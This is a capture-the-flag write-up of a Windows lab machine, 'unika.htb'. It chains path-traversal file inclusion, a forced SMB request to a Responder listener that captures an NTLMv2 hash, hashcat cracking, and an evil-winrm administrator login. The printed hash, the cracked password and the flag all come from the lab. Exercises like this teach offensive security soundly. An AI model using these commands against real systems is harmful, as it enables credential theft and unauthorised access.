









## TL;DR

We exploit `RFI` to achieve `NTLM-Hash`, and crack it. then we connect to `winRM` using the credentials we got and retrieve the flag.

### Recon

we start with `nmap`, this is the command we use:
```bash
nmap -p- -sVC --min-rate=10000 $target 
```



```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).

5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

When we try to access the http server on port `80`, we can see it tries to connect us to `unika.htb`, and can't recognize it.

Let's add it to the `/etc/hosts` file, we want to insert this line:
```bash
unika.htb 10.129.52.135
```
We can execute `sudo vi /etc/hosts` and then paste this line.


### exploit RFI to achieve NTLM-Hash

Now, let's we access the website, we can see there is some button that lets us choose the language of the page, this looks like there is maybe `LFI`, local file inclusion, that we can achieve.


We can verify the `LFI` by tring to access `win.ini`, which is located in `C:\Windows\win.ini`, using this url:
```bash
http://unika.htb/index.php?page=../../../../../../../../../../../Windows/win.ini
```



We try to do `RFI`, using `http://` schema, or maybe `ftp://`, but they both disabled, so we won't achieve `RCE` in this case.

However, we can achieve the `NTLM` hash using `SMB` request to our responder, and then we can try to brute force the password. This is too called `RFI`, because we include (or at least try to include) a remote file.

First, let's set our `responder` using this command, we specify the interface using `-I`, in our case we uses `tun0`:
```bash
sudo responder -I tun0 -dwv
```

Note that the SMB server is on, as shown in the picture. if not, you need to edit `/etc/responder/Responder.conf`, and change the flag for SMB from off to on.



Now, we need to get the ip of our machine in the network of the machine, in this case we can see it is `10.10.14.205`.




we try to include `\\10.10.14.205\something` in the web server, and this makes `SMB` request to our responder, which captures the `NTLM` hash, in this case `NTLMv2`.



```bash
[SMB] NTLMv2-SSP Client   : 10.129.52.135
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:baa15642ad4bfe8a:E77A010BB67BC17E5C36B10C4D96D245:010100000000000000C926FD8536DC019862E7B81FE194A00000000002000800390032004D00540001001E00570049004E002D005400350054005500390041005500460050005600310004003400570049004E002D00540035005400550039004100550046005000560031002E00390032004D0054002E004C004F00430041004C0003001400390032004D0054002E004C004F00430041004C0005001400390032004D0054002E004C004F00430041004C000700080000C926FD8536DC01060004000200000008003000300000000000000001000000002000002D23E21FAD5BAED4E17398294A0026C974C1D9F2C6CB78F5B4CFD641FB151D4E0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003200300035000000000000000000
```

Let's crack it using `hashcat`. We can specify the kind of the hash using `-m` flag, in our case we checked, and the code for `NetNTLMv2` is `5600`. In addition, we add `-a 0` which stands for dictionary attack, and specify the dict, in our case `/usr/share/wordlists/rockyou.txt`:
```bash
hashcat -a 0 -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```

We cracked the password, which is `badminton`, so now we get this credentials: `administrator:badminton`.



### Using password to login to winRM

In the beginning of the work, we saw that port `5985` is opened too, after some googling i find that it has `winRM` behind, so let's try to connect using the credentials we achieved.
```bash
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We will use the tool `evil-winrm`, this is the command we use:
```bash
evil-winrm -i $target -u administrator -p badminton -P 5985
```



We'll check which users we have on the computer using `ls C:\Users`, we know the flag should be somewhere inside `C:\Users\<user>\Desktop\flag.txt`.



**Flag:*****`ea81b7afddd03efaa0945333ed147fac`***
